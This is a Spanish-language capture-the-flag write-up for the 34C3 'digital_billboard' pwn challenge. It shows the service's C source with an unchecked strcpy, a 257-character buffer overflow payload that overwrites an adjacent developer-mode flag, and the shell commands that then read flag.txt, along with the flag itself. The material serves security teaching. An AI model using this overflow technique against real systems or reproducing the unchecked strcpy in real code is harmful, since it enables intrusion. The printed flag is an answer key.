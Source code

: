 
**Título:** digital_billboard | **Categoría:** Pwn | **Nivel:** fácil

**Autor:** blondbyte

> **Enunciado:**
>
> We bought a new Digital Billboard for CTF advertisement:
>
> nc 35.198.185.193 1337
>
> [`billboard.tar.gz`](billboard.tar.gz)

---

#### Resolución
Accediendo al servicio que indica el enunciado me encuentro con:
```
root@blondbyte# nc 35.198.185.193 1337
*
* Digital Billboard
*
We bought a new digital billboard for CTF advertisement.

Type "help" for help :)
>
```
A ver la ayuda que dice:
```
> help
set_text <text>			(Set the text displayed on the board)
devmode 			(Developer mode)
help 				(Show this information)
modinfo 			(Show information about the loaded module)
>
```
Por lo visto hay varias opciones pero tampoco tengo claro por donde tirar. Vaya, hay un modo developer y algo más, a ver que dicen:
```
> devmode
Developer mode disabled!
> modinfo
************************************
Information about the loaded module:
Name: Digital Billboard
Base address: 0x7fb2fc896000
************************************
> set_text test
Successfully set text to: test
>
```
Hay una entrada de texto y lo primero que me viene a la cabeza son los ejercicios introductorios de overflow en binarios escritos en C.

Estaría bien activar ese modo developer. El chall se acompaña con el código fuente del servidor. Habrá algún checking para ser developer..y tanto que lo hay:
```c

struct billboard {
    char text[256];
    char devmode;
};

void set_text(int argc, char* argv[]) {
    strcpy(bb.text, argv[1]);
    printf("Successfully set text to: %s\n", bb.text);
    return;
}
```
La struct `billboard` reserva espacio para las variables de forma contigua. El método `strcpy(a,b)` almacena el valor de `b` en la dirección `a`. Vamos a preparar el payload, formado por una cadena de 256+1 chars para que haga overflow en la variable `char text[256]` y se sobreescriba la varable `char devmode`:
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Inyectamos el payload:
```
> set_text aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Successfully set text to: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
> devmode
Developer access to billboard granted.
```
Parece que "estamos dentro". Muestro las ficheros del servidor e imprimo el que se llama flag.txt:
```
ls
billboard.so
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
server
srv
sys
tmp
usr
var

cat flag.txt
34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN
```

La flag es: `34C3_w3lc0me_t0_34c3_ctf_H4ve_fuN`
